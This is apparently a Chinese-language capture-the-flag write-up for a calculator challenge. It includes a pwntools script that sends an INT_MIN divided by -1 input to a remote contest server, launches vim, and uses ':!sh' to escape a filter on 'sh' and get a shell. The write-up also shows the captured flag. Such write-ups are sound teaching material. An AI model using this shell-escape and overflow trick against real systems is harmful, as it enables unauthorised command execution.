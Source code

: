 `execlp()`这个函数有点难受。。不能包含 `sh` 的话我也不知道怎么绕过，看了网上一堆教程，本地试了一下也没什么太好的方法。。`glob()`也不行。。难受

哭了哭了，看了一天啥也没看出来。看看别的题去。

晚上试了一下 vim，居然可以。正好有有大佬提醒可以在vim 中用`:!`执行shell命令。成功拿到shell。

然而此时`cat flag`会发现真正的flag在`-`文件中。

Google之，发现[how-to-open-a-f-dashed-filename-using-terminal](https://stackoverflow.com/questions/42187323/how-to-open-a-f-dashed-filename-using-terminal)上面有解答。

getshell。

```python
from pwn import *
p = remote('202.38.95.46', 12008)
# p = process('./calc')
context.log_level = 'DEBUG'
print(p.recvline())
print(p.recvline())
p.sendlineafter(">>", '-2147483648/-1')
# print(p.recvline())
# p.interactive()
# p.recvuntil('You can run a program to examine:')
p.sendlineafter("You can run a program to examine:", 'vim')
p.sendline(':!sh')
p.interactive()
print(p.recvall())
# p.interactive()
p.close()
```

![](c-homework-2.png)

```
flag{816484e67b21efd5de8f1661d180a007}
```

